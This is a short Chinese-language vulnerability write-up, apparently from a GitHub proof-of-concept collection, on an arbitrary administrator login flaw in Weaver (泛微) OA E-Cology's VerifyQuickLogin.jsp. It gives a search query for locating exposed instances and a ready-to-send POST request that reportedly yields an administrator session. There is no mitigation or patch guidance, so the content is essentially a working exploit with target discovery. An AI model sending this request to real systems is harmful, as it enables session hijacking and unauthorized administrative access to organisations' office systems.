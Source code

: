 # 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

# 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

## 漏洞描述

泛微OA E-Cology VerifyQuickLogin.jsp文件中存在任意管理员登录漏洞，攻击着通过发送特殊的请求包可以获取管理员Session

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

产品主页

![image-20220824142008751](/images/202208241420826.png)

验证POC

```
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

![image-20220824142028221](/images/202208241420269.png)

